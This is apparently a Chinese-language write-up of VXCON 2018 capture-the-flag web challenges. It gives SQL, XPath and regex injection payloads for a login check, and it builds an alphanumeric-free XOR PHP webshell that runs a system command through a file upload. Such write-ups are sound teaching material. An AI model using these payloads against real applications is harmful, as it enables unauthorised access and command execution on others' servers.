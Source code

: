 # vxcon2018
這次比賽個人覺得難度沒有很高(因為我至少有頭緒:joy:)，題目質量都能確保讓我們學到東西， 下面紀錄一些賽後解出來的題目...

## Lock Pick Duck (1)
[source code](https://github.com/shinmao/CTF-writeups/blob/master/vxcon2018/lpd_source.php)  
payload滿足三個條件就能拿到第一把flag  
```php
if(@preg_match("/^$U,$P$/m", $csvdb)){
        $flag++;
        echo "csvdb1\n";
    }

    if(@$sqldb->querySingle("SELECT username FROM users WHERE username='$U' AND password='$P'") == TRUE){
        $flag++;
        echo "sqldb1\n";
    }

    if(@$xmldb->xpath("//users/user[username='$U' and password='$P']") == TRUE){
        $flag++;
        echo "xmldb1\n";
    }
```
上面是通過的三個條件：  
2和3很簡單，sql injection 和 xpath injection 用
```php
?username='or''='&password='or''='
```
就可以通過  
第一個條件我就想了很久，注入正則想也知道洞很大，卻遲遲想不到怎麼注入  
賽後才知道，不如讓全部都匹配吧:+1:  
```php
?username=(.*)|' or ''='&password=(.*)|' or ''='
```
這樣就可以拿到第一把flag： `Flag 1: vxctf{y0u_d0_kn0w_InjectI0n_101}`  
除此之外，肯定還有很多繞過方法

## Lock Pick Duck (2)
繼上題一樣的source code，payload滿足六個條件就能拿到第二把flag  


## Patch Peep Huck (w)
```php
 <?=
!$I=&$_FILES[!!$l='tmp_name'] || $I['size']>>7 || preg_match('/\w/',join(file($I[$l])))?
!show_source(__FILE__) : !include($I[$l]);
```
我在比賽時碰到了**讀不懂代碼**的問題:cold_sweat:  
賽後看了@kaibro的wp真的是讓我驚呆了呀  
首先是:
```php
$_FILES[!!$l='tmp_name']
```
這部分，我對`$_FILES`的結構還是有所了解的。`tmp_name`應該是要在第二層陣列之中，我在這裡卡了好久。原來問題出在`!!`，`!!`會將語句轉為boolean回傳true or false！  
這裏將`tmp_name`傳入參數的動作一定會回傳true，因此事實上這裏傳入`$I`的東東就是`$_FILES[1]`。  
解開了代碼的疑惑，再來看題目想幹嘛：  
上傳FILE，限制FILE的size，並且將FILE的內容join成字串做匹配  
典型的上傳webshell題，內容不能帶有字母，數字，底線  
一開始我卡在**底線的部分**很久，賽後看了@kaibro引用了在@l4w中的技巧 -> 表情符號  
終於自己寫出了個payload：  
```php
<?=
$😊 = "||||%-" ^ "/%/(``"; 
$😊 ("`|" ^ ",/");
```
剛開始解題的時候，我也有常識XOR的思路，根據P師傅的說法，我們可以用兩個特殊符號做XOR構造出a-z之間的字母，可是我卻怎麼湊都湊不出來...  
賽後才想到，乾脆來寫個php，把所以特殊符號之間的XOR都列出來，直接查表不就得了:  
```php
$arr1 = array("!","'","#","%","&","(",")","[","]","/","\\","?",".",",","^","_","~","*","+","-","<",">","=","{","}","\"",":",";","`","|");
$arr2 = array("!","'","#","%","&","(",")","[","]","/","\\","?",".",",","^","_","~","*","+","-","<",">","=","{","}","\"",":",";","`","|");

foreach ($arr1 as $value1) {
	foreach ($arr2 as $value2) {
		$x = $value1^$value2;
		print($x." ".$value1." ".$value2);
		echo "<br/>";
	}
	echo "<br/>";
}
```
於是通過上面的懶蟲法，我成功湊出了`<?=SYSTEM(LS);`的payload  

## Reference
1. [Kaibro WP](https://github.com/w181496/CTF/tree/master/vxcon2018)  
2. [官方詳解](https://github.com/ozetta/ctf-challenges)  
3. [一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)

